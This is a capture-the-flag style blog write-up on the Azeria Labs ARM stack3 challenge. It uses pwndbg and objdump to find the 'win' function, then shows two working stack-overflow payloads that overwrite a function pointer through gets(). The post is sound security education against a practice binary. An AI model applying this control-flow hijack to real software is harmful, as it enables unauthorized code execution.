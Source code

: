 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part IV"
tags: [reversing, exploiting, ARM, iasm, azeria-labs, objdump]
inline_default_language: nasm
---
```


This time the goal is to make the program print the message
`"code flow successfully changed"`{.cpp}.<!--more-->

## A manual `xref`{.cpp}

Let's see where this message is stored:

```nasm
pwndbg> search "code flow successfully changed"
stack3          0x10560 0x65646f63 /* 'code flow successfully changed'*/
stack3          0x20560 0x65646f63 /* 'code flow successfully changed'*/
```

And from where the executable makes a reference to it? In other
words, where in the code segment this address is stored?

```nasm
pwndbg> search -4 --executable 0x10560
stack3          0x10490 0x10560
stack3          0x10c6c 0x10560
stack3          0x20490 0x10560
```

To summarize the message (and array of chars) is stored at 0x10560
and the address 0x10560 is stored in 0x10490, 0x10c6c and 0x20490.

These addresses are the `char*`{.cpp} that the program must load into a
register to do a call to `printf`{.cpp} or `puts`{.cpp}.

Let's assume that one of those addresses is loaded in a register using an
instruction like this:

```nasm
<???>     ldr   r?, [pc, #offset?]
```

It is a reasonable assumption: the rest of the challenges so far used
this instruction.

We don't know neither which register will be using nor the offset so we
will have to guess.

Let's see what we can find with `objdump`{.cpp} and `grep`{.cpp}:

```nasm
pi@raspberrypi:~$ objdump -d stack3 | grep "ldr.*r[0-9], \[pc"
   10374:       e59f000c        ldr     r0, [pc, #12]   ; 10388 <_start+0x34>
   10378:       e59f300c        ldr     r3, [pc, #12]   ; 1038c <_start+0x38>
   10390:       e59f3014        ldr     r3, [pc, #20]   ; 103ac <call_weak_fn+0x1c>
   10394:       e59f2014        ldr     r2, [pc, #20]   ; 103b0 <call_weak_fn+0x20>
   103b4:       e59f301c        ldr     r3, [pc, #28]   ; 103d8 <deregister_tm_clones+0x24>
   103b8:       e59f001c        ldr     r0, [pc, #28]   ; 103dc <deregister_tm_clones+0x28>
   103c8:       e59f3010        ldr     r3, [pc, #16]   ; 103e0 <deregister_tm_clones+0x2c>
   103e4:       e59f1024        ldr     r1, [pc, #36]   ; 10410 <register_tm_clones+0x2c>
   103e8:       e59f0024        ldr     r0, [pc, #36]   ; 10414 <register_tm_clones+0x30>
   10400:       e59f3010        ldr     r3, [pc, #16]   ; 10418 <register_tm_clones+0x34>
   10420:       e59f4018        ldr     r4, [pc, #24]   ; 10440 <__do_global_dtors_aux+0x24>
   10448:       e59f0024        ldr     r0, [pc, #36]   ; 10474 <frame_dummy+0x30>
   10460:       e59f3010        ldr     r3, [pc, #16]   ; 10478 <frame_dummy+0x34>
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
   104f4:       e59f604c        ldr     r6, [pc, #76]   ; 10548 <__libc_csu_init+0x5c>
   104f8:       e59f504c        ldr     r5, [pc, #76]   ; 1054c <__libc_csu_init+0x60>
```

These two lines are interesting:

```nasm
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
```

And the winner is 0x10484!

```python
>>> 0x10484 + 0x4 + 0x8
0x10490
```

See how 0x10484 the address of the `ldr` instruction plus the offset
`0x4`{.none} plus 0x8 bytes yields an address (0x10490) that we found before, a
`char*`{.cpp}.

If we dereference it we will see the address of the message:

```nasm
pwndbg> x/1wx 0x10490
0x10490 <win+20>:       0x00010560

pwndbg> x/1bs 0x00010560
0x10560:        "code flow successfully changed"
```

So, our target is:

```nasm
pwndbg> pdisass 0x10484-8
 ► 0x1047c <win>        push   {fp, lr}
   0x10480 <win+4>      add    fp, sp, #4
   0x10484 <win+8>      ldr    r0, [pc, #4]
   0x10488 <win+12>     bl     #puts@plt <puts@plt>

   0x1048c <win+16>     pop    {fp, pc}
```

### A comment

This is not the only way to do it.

I could search for a `puts`{.cpp} call that would be more likely to be the
one that we are looking for:

```shell
pi@raspberrypi:~$ objdump -d stack3 | grep "puts"
00010324 <puts@plt>:
   10488:       ebffffa5        bl      10324 <puts@plt>
```

I could look which functions are available:

```nasm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x000102ec  _init
0x0001030c  printf@plt
0x00010318  gets@plt
0x00010324  puts@plt
<...>
0x0001047c  win
0x00010494  main
<...>
```

I could use IDA or [Radare2](https://rada.re/n/radare2.html) or similar
and do a `xref`{.cpp}...

Or I could just read what is the goal from the
[challenge](https://azeria-labs.com/part-3-stack-overflow-challenges/).

I preferred a longer path to explore more the commands of `pwndbg`{.cpp}
and stress a little more my brain.

Otherwise it wouldn't be fun :)

## Let's jump

This is the `main`{.cpp} function:

```nasm
pwndbg> pdisass &main 9
 ► 0x10494 <main>       push   {fp, lr}
   0x10498 <main+4>     add    fp, sp, #4
   0x1049c <main+8>     sub    sp, sp, #0x50
   0x104a0 <main+12>    str    r0, [fp, #-0x50]
   0x104a4 <main+16>    str    r1, [fp, #-0x54]
   0x104a8 <main+20>    mov    r3, #0
   0x104ac <main+24>    str    r3, [fp, #-8]
   0x104b0 <main+28>    sub    r3, fp, #0x48
   0x104b4 <main+32>    mov    r0, r3
   0x104b8 <main+36>    bl     #gets@plt <gets@plt>

   0x104bc <main+40>    ldr    r3, [fp, #-8]
   0x104c0 <main+44>    cmp    r3, #0
   0x104c4 <main+48>    beq    #main+72 <main+72>

   0x104c8 <main+52>    ldr    r0, [pc, #0x18]
   0x104cc <main+56>    ldr    r1, [fp, #-8]
   0x104d0 <main+60>    bl     #printf@plt <printf@plt>

   0x104d4 <main+64>    ldr    r3, [fp, #-8]
   0x104d8 <main+68>    blx    r3
```

So instead of a cookie like in the
[stack0](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html)
or [stack1](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-II.html)
we have the address of a function.

{% call marginnotes() %}
`blx r3` is an unconditional jump to an absolute address
([docs](https://developer.arm.com/documentation/dui0068/b/arm-instruction-reference/arm-branch-instructions/blx?lang=en)).
<br />
That's why it works.
 {% endcall %}

The address is initialized to zero but due to a stack overflow we can
write an arbitrary address, in particular, the address of `win`{.cpp}:
0x0001047c

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x7c\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed
```

We could also jump to the middle of `win`{.cpp}, to 0x00010484, and we will
have the same result. The only problem is that the program will execute
the *epilogue* of `win`{.cpp} **without** having executed its *prologue*.

{% call marginnotes() %}
Does this ring some bells? This is the base of *return oriented
programming* or ROP.
 {% endcall %}

The result? `pop {fp, pc}` will restore `pc` to the next element in the
stack which most likely will not be a valid address. Happy segfault!

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x84\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x00010484
code flow successfully changed
Segmentation fault
```
